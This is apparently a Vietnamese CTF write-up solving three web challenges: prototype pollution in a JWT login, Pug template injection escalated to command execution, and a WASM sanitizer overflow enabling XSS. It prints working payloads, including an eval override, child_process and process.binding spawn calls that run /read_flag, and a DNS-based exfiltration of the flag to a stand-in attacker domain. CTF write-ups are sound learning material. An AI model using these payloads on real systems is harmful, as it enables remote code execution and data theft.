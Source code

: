 ```yaml
---
title: "W1 Playground Writeup"
date: 2024-05-01 00:00:00 +0800
categories: [CTF Writeup]
tags: [Prototype Pollution, SSTI, API testing, XSS, PHP]
---
```


## Bài 1: easy login

![image](https://i.imgur.com/paDR37b.png)

Phân tích qua code thì chúng ta có 2 endpoint cần để tâm là "/login" và "/admin"

![image](https://i.imgur.com/ljSahfY.png)

![image](https://i.imgur.com/mr7eats.png)

Chức năng login bắt chúng ta post data lên và server sẽ trả lại mã jwtkey để chúng ta đăng nhập
Chức năng admin kiểm tra xem chúng ta có phải admin không qua `isAdmin=true` sau khi phân tích jwtkey
Sau khi phân tích bài này dính lỗi Prototype Pollution bằng cách thêm `logindata["__proto__"][isAdmin]=true` vào thì prototype của `logindata` sẽ có thuộc tính `isAdmin=true` từ đó logindata sẽ kế thừa thuộc tính đó
Payload

![image](https://i.imgur.com/t62zoI3.png)

Có jwtkey rồi thì vào admin để lấy flag thôi

![image](https://i.imgur.com/NdpGVoS.png)

**Flag : W1{REDACTED}**


## Bài 2: render4free

![image](https://i.imgur.com/KTMygHL.png)

Phân tích qua code thì web này đang sử dụng Pug template engine để in ra các ký tự chúng ta gõ vào
Sau khi phân tích code thì chúng ta có thể rút ra web đang dính lỗi SSTI nhưng có 1 function này đang chặn chúng ta khai thác SSTI

![image](https://i.imgur.com/SliIvxB.png)

Sau khi đọc pug document thì chúng ta có thể sử dụng "-" để viết code js

![image](https://i.imgur.com/5mAiiby.png)

Bây giờ chúng ta có thể dùng "-" để viết code js thì chúng ta viết gì ? Đó chính là ghi đè lại function filter ký tự của chúng ta

```- global.replace_bad_char = str_to_replace => str_to_replace```
Tiếp tục ghi đè lại function trên để chúng ta có thể thực hiện lệnh eval

```- global.replace_bad_char = str_to_replace => eval(str_to_replace)```
Sau khi ghi đè được rồi thì viết vào để thử thực hiện RCE nào
Payload ```require('child_process').exec('ping hacked.sv')```
![image](https://i.imgur.com/ACbksnM.png)
Làm gì dễ thế anh Shin24 (author bài này) đã set type của nodejs là module tức chúng ta không thể require mà phải sử dụng import
Nhưng mà code đã chỉnh Promise.prototype.then đã thành 1 hàm trả về null

![image](https://i.imgur.com/2wwyD2a.png)

Oat gì dark vậy, lúc này chúng ta sử dụng process.binding để import các modules của nodejs
```js
  process.binding('spawn_sync').spawn({ 
    file: 'ls',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
![image](https://i.imgur.com/zswZKe6.png)

Ngon vậy là có thể thực hiện lệnh ls
Để ý ở file Docker author đã tạo ra 1 file /read_flag để đọc flag vậy chúng ta thực thi file read_flag để nhận flag

![image](https://i.imgur.com/5EUqBt7.png)

Payload:
 ```js
  process.binding('spawn_sync').spawn({ 
    file: '/read_flag',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```

  ![image](https://i.imgur.com/dKfBXot.png)


  **Flag: W1{REDACTED}**



## Bài 3: Super sanitizer

  ![image](https://i.imgur.com/IZdGXnh.png)

  Tóm tắt bài web này sử dụng WASM được compile từ C và sử dụng nó để xử lý input của user
  File C nhận input của user và blacklist để xử lý nếu có ký tự blacklist thì ký tự đó sẽ bị xoá khỏi input của user

  ![image](https://i.imgur.com/4gXTA7l.png)

  Blacklist của bài này như sau `<imgoner='\"'>`

  Lỗi của bài này nằm ở đây

  ![image](https://i.imgur.com/zaOqpyM.png)

  Khi chúng ta cho 1 ký tự có độ dài là `0x300` thì `raw_str[0x300]` sẽ bị tràn và sẽ ghi đè lên ký tự đầu tiên của blacklist là `\x00` từ đó blacklist sẽ trở thành rỗng -> bypass filter

  Nhưng đến đây thì vẫn chưa xong, web có CSP để làm XSS khó hơn

  Sau một lúc fuzzing để kiểm tra thì dù CSP chặn redirect nhưng `window.location.href=hackerwebsite.com` vẫn resolve dns vậy ta có thể tận dụng cái này để leak flag do flag khá dài nên mình leak 2 lần để lấy flag (ví dụ `flag.hackerwebsite.com`)

  ![image](https://i.imgur.com/nkf2UMl.png)










